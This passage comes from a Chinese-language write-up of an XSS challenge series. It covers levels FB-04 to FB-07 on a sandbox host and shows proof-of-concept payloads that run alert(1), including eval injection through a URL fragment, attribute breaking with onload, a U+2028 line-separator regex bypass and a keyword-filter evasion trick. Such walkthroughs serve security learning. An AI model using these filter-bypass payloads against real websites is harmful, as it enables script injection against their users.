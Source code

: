 这一关的表单提交是用来迷惑的，重点在 eval，POC：

```
http://sandbox.host.smartgslb.com/fb4/?key=#";alert(1);"

```

6. FB-05
--------

这关的利用点是头像，表单提交，在 pic 中提交如下 POC：

```
upic=./img/head_2.png' onload=alert(1) '

```

7. FB-06
--------

这一题最主要的就是换行符，在[XSS挑战第二期 Writeup](http://drops.wooyun.org/papers/938)中有提到，记性不好，以至于卡了很久。

这里有个关键的地方就是`xss6.js`中的：

```
var SERVER_TEMP  = $.Tjs_HtmlEncode(str.replace(/.*\?/,"")); //HtmlEncode 进行安全验证

```

这行代码让我们对_?_失去了幻想，还记得`FB-01`里面的那个正则么，这里很神似，但是却更狠。所以我们需要一个换行符，普通的 %0D%0A 是不行的，所以这里需要`&#x2028;`，由于 chrome 不能直接在浏览器中插入这个符号，所以我们通过一个 iframe 来引用它：

```
<iframe src="http://sandbox.host.smartgslb.com/fb6/xss6.htm#?&#x2028;&uin=..&pn=user.php?callback=dodo#"></iframe>

```

user.php 这个 callback 接口有限制，还需要绕过这里的限制才能够执行 JS 代码，经过测试程序对几乎所有可以执行代码的关键字进行了过滤，但是对 [ ] ( ) . 等没有进行限制，可以通过下面的方法来绕过：

```
this[17795081..toString(36)](1)

```

最后的 POC：

```
<iframe src="http://sandbox.host.smartgslb.com/fb6/xss6.htm#?&#x2028;&uin=..&pn=user.php?callback=this[17795081..toString(36)](1)#"></iframe>

```

8. FB-07
--------

这一题需要的技巧真是不少，经过 pz 大牛的指点才过关的。 仔细看代码，思路就会很明确，就是要想办法执行下面的代码：

```
document.getElementById("username").innerHTML = '<a href="http://pkav.net/' + uid + '" target=_blank> 小白 </a>';

```
